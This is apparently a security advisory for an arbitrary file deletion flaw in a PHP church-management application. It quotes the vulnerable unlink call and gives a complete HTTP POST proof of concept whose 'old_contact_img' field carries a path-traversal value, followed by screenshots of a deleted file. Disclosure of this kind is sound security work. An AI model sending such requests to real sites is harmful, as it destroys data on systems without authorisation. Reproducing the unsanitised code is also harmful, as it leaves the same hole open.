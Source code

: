 ### Vulnerability file address

In line 447 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_contact_img']);`,` $_POST['old_contact_img']` parameters have not been restricted, which causes any file to be deleted

```php
 if ($_FILES['contactphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["contactphoto"]["name"]);

            if (move_uploaded_file($_FILES["contactphoto"]["tmp_name"], $filepath)) {
                $img8 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_contact_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 381

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_contact_img"

../../19.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="contactphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `19.txt` file in the `church/` directory

![image-20250505163407465](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051634505.png)

Then we execute the above poc to attack

![image-20250505163417344](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051634371.png)

Files are deleted after the attack is successful

![image-20250505163425862](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051634899.png)